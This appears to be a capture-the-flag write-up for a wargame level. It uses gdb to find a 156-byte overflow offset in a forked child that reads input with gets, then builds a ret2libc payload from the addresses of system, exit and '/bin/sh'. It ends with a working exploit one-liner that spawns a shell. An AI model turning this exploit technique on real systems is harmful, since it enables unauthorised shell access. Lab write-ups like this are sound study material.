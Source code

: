 # level04

## Step 1: Understand the program
1. At the beginning, the program `forks`
2. The parent process `waits` until the child process `exits` or until a signal is received
3. The child process reads from `stdin` with a __vulnerable__ `gets` call
    - The program segfault when the input is too long by overwriting `eip` or `eax` (I didn't try to know)



## Step 2: Find the offset of the buffer overflow

We need to entrer in the child process with gdb because the vulnerability is in the child process.

`(gdb) set follow-fork-mode child`

Otherwise, we will stay on the parent process

```console
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 1948]
[Switching to process 1948]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41326641 in ?? ()
```

> Offset = 156

## Step 3

Once in the child process, we can find the address of `system`, `exit` and `"/bin/sh"` to build a __Ret2libc__

- Address of `system`:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- Address of `exit`:
```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```
- Address of `"/bin/sh"`:
```
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

## Exploit
```bash
(python -c 'print "A" * (156) + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | /home/users/level04/level04
```